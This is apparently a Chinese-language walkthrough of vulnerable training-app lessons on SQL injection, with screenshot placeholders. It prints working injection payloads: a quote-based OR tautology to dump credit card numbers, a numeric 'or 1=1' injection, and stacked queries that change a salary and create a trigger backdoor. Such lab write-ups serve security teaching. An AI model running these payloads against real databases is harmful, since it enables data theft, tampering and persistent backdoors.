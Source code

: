 下面的表格允许用户查看他们的信用卡号码。尝试注入一个SQL字符串，导致显示所有信用卡号。尝试用户名“史密斯”。

现在您已成功执行SQL注入，请尝试对参数化查询进行相同类型的攻击。如果您希望返回到可注入的查询，请重新启动课程。

输入

```
Smith' OR '1'='1
```

![image]({path}/113.png)

![image]({path}/114.png)

## LAB: SQL Injection
## Stage 1: String SQL Injection

使用burpsuite抓取数据包

![image]({path}/115.png)

![image]({path}/116.png)

## Stage 2: Parameterized Query #1（修复方式：参数化查询）
## Stage 3: Numeric SQL Injection
使用larry用户登录

![image]({path}/117.png)


```
or 1=1 order by employee_id desc
```

![image]({path}/118.png)

![image]({path}/119.png)


## Stage 4: Parameterized Query #2（修复方式：参数化查询）
## Database Backdoors（数据库后门）

```
101;update employee set salary=1234567 where userid=101
```

![image]({path}/120.png)



```
101;create trigger mybackdoor before insert on employee foreach row begin update employee setemail='john@hackme.com' where userid=new.userid
```
